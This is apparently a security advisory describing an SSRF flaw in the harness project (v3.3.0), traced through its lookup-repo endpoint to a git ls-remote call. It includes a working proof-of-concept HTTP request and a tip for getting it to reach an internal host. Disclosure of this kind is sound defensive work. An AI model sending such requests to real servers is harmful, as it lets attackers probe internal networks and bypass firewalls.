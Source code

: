 # Vendor

harness

# Product

harness

# version

v3.3.0

# Download 

https://github.com/harness/harness

# Vulnerability

SSRF

# Description

An attacker can provide an internal IP address or hostname in the `url` parameter. The `git ls-remote` command will attempt to connect to this internal resource, allowing the attacker to scan internal networks, access internal services, or bypass firewall rules.


# Analysis

Endpoint: `POST /api/v1/gitspaces/lookup-repo`

Vulnerable Parameter: The `url` field in the JSON request body.

Code Path:

  The `LookupRepo` function in `app/api/controller/gitspace/lookup_repo.go` receives the user-provided `url`.

  It calls `sanitizeLookupRepoInput` which performs basic URL parsing and scheme validation (ensuring `http` or `https` is present). However, this sanitization is insufficient to prevent SSRF or command injection.

  The `url` is then passed to `c.scm.CheckValidCodeRepo` in `app/gitspace/scm/scm.go`.

  `CheckValidCodeRepo` calls `s.detectBranch`, which in turn calls `detectDefaultGitBranch`.

  The `detectDefaultGitBranch` function constructs and executes a `git ls-remote` command, passing the user-controlled `repoURL` (which is the `url` from the request) directly as an argument:

```
    cmd := command.New("ls-remote",
        command.WithFlag("--symref"),
        command.WithFlag("-q"),
        command.WithArg(gitRepoDir), // gitRepoDir is the user-provided URL
        command.WithArg("HEAD"),
    )
    if err := cmd.Run(ctx, command.WithStdout(output)); err != nil {
        // ...
    }
```


Vulnerability Verification:

We need to add '#' after the internal address we want to request to avoid its own parameters affecting our request

<img width="979" height="376" alt="image" src="https://github.com/user-attachments/assets/a369a8a0-c989-4104-8710-8a23397639db" />


# POC
```
POST /api/v1/gitspaces/lookup-repo HTTP/1.1
Host: 192.168.43.165:3000
Cookie: token=XXX
Connection: close
Content-Length: 68

{"space_ref":"a","url":"http://192.168.43.165:9877/123.php?id=111#"}

```





